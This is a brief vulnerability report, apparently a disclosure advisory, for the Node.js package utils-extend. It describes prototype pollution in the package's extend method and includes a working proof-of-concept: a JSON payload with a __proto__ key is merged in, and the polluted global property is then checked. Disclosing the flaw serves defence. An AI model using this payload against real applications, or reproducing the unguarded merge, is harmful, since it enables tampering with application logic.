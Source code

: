 # Description
```utils-extend``` is a package to extend nodejs util api, and it is light weight and simple. 
This package is vulnerable to prototype pollution in the ```extend``` method. 

# Proof-of-concept
```
const utils = require('utils-extend');
var payload = '{"__proto__":{"polluted":true}}';
var s = {
        k: 'v',
        k2:[]
};
var s1 = {
        k3: {}
};
var res = utils.extend(s, JSON.parse(payload), s1);
console.log({}.polluted);
```